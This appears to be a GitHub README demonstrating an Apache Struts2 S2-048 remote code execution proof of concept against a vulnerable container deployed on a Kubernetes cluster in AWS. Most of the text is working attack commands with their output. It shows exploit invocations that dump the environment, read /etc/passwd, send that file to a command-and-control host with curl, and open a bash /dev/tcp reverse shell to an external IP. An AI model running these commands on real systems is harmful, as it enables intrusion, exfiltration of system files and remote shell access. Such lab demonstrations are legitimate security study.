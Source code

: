 # struts_poc  
![image](https://user-images.githubusercontent.com/4404271/153259381-52907b2b-ab78-4699-bde6-0cf7b35393a8.png)

## There are sometimes holes.
## This is nothing more than good old Kali struts poc rev shell in a k8s cluster. Simple.  
## Scroll down for a tldr GIF :-)  
  

git clone https://github.com/hook-s3c/apache-struts2-PoC  
cd apache-struts2-PoC/  
docker build -t struts .  
docker run -it --rm -d -p 8080:8080 struts:latest  
docker tag struts:latest public.ecr.aws/v9f6i2g3/stuff:latest  
#public login to us-west-2 not supported by aws  
aws ecr-public get-login-password --region us-east-1 | docker login --username AWS --password-stdin public.ecr.aws  
docker push public.ecr.aws/v9f6i2g3/stuff:latest  
kubectl apply -f strust-deploy-and-service.yaml  
ubuntu@brett-jumpbox:myhomedir/apache-struts2-PoC  
  

kubectl get service -n struts  
NAME     TYPE           CLUSTER-IP       EXTERNAL-IP                                                              PORT(S)          AGE  
`struts   LoadBalancer   10.100.144.108   a3dc6544a26b64b7cbe1610fd1714538-870897122.us-west-2.elb.amazonaws.com   8080:30524/TCP   153m` 
  

ubuntu@brett-jumpbox:myhomedir/apache-struts2-PoC python exploitS2-048-cmd.py a3dc6544a26b64b7cbe1610fd1714538-870897122.us-west-2.elb.amazonaws.com:8080 'env'  
KUBERNETES_SERVICE_PORT_HTTPS=443  
KUBERNETES_SERVICE_PORT=443  
STRUTS_PORT_8080_TCP_PORT=8080  
STRUTS_SERVICE_PORT=8080  
HOSTNAME=struts-7d8c95bbbd-9p9pp  
JAVA_HOME=/usr/local/openjdk-8  
GPG_KEYS=05AB33110949707C93A279E3D3EFE6B686867BA6 07E48665A34DCAFAE522E5E6266191C37C037D42 47309207D818FFD8DCD3F83F1931D684307A10A5  
etc..  
  
     
ubuntu@brett-jumpbox:~/apache-struts2-PoC$  
curl 127.0.0.1:8080/showcase.action -v  
#python3 -m venv .  
python exploitS2-048-cmd.py 127.0.0.1:8080 'cat /etc/passwd'  

#from your cc server do python3 webserver.py

`python exploitS2-048-cmd.py a31daafb811f24dc6b521914a12433e6-1984373561.us-west-2.elb.amazonaws.com:8080 'curl jumpbox.brett1.com:8080\hi_from_inside_the_container_in_our_cluster`  

`python exploitS2-048-cmd.py a31daafb811f24dc6b521914a12433e6-1984373561.us-west-2.elb.amazonaws.com:8080 'curl -d @/etc/passwd jumpbox.brett1.com:8080`  

#on your cc server do nc -l 4242  
`python exploitS2-048-cmd.py a3dc6544a26b64b7cbe1610fd1714538-870897122.us-west-2.elb.amazonaws.com:8080 'bash -i >& /dev/tcp/52.206.9.54/4242 0>&1'`


#![struts_rs](https://user-images.githubusercontent.com/4404271/153033823-b0d10a6b-4faa-4f0e-b8d1-8dde69cf1562.gif)

![image](https://user-images.githubusercontent.com/4404271/153435925-60ccd750-ad11-4f80-ad72-e27f01d75e09.png)

![image](https://user-images.githubusercontent.com/4404271/153435839-90ef50c2-baeb-431b-b1ee-2338e5229509.png)

![image](https://user-images.githubusercontent.com/4404271/153490296-a07fb685-8b04-48bb-8af0-7bff11cc2c21.png)

